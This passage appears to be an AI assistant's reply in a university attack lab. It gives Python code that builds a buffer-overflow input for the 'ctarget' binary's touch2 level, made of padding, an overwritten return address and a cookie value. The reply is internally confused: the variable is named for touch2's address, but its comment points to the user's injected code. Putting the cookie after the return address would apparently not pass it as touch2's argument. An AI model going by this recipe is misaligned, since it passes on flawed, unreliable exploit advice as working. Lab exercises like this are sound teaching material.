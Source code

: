 3.  Next, append the cookie value (0x16805896) as a 4-byte little-endian value. You can use struct.pack to achieve this.
    

Here's an example of how you might construct the input string in Python:

```python
import struct

buffer_size = 0x18
touch2_addr = 0x401989  # Replace this with the actual address of your l2d.o code

padding = b'A' * buffer_size
return_addr = struct.pack('<Q', touch2_addr)
cookie_value = struct.pack('<I', 0x16805896)

exploit_str = padding + return_addr + cookie_value
```

Then, use the generated `exploit_str` as input for the ctarget program.

If you still encounter issues, please provide the disassembly of your `l2d.o` file and the touch2 function's address, and I will further assist you.